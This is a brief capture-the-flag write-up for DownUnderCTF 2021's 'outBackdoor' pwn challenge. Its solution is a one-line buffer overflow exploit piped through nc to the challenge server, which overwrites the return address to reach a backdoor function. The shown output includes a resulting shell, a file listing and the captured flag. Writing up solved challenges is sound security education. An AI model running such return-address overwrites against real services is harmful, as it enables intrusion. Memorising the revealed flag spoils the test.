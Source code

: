 # outBackdoor
>Fool me once, shame on you. Fool me twice, shame on me.

>Author: xXl33t_h@x0rXx

> nc pwn-2021.duc.tf 31921

[outBackdoor](https://drive.google.com/file/d/1ZLzi6VLqK6231NkTDtusYRlAfi7DkcO7/view?usp=sharing)

# Solution

```
┌──(kali㉿kali)-[~/Desktop/DownUnderCTF21]
└─$ (python -c 'print "a"*0x18 + "\xd8\x11@\x00\x00\x00\x00\x00"'; cat) |  nc pwn-2021.duc.tf 31921       148 ⨯ 1 ⚙

Fool me once, shame on you. Fool me twice, shame on me.

Seriously though, what features would be cool? Maybe it could play a song?


W...w...Wait? Who put this backdoor out back here?
ls
flag.txt
pwn
cat flag.txt
DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}

```

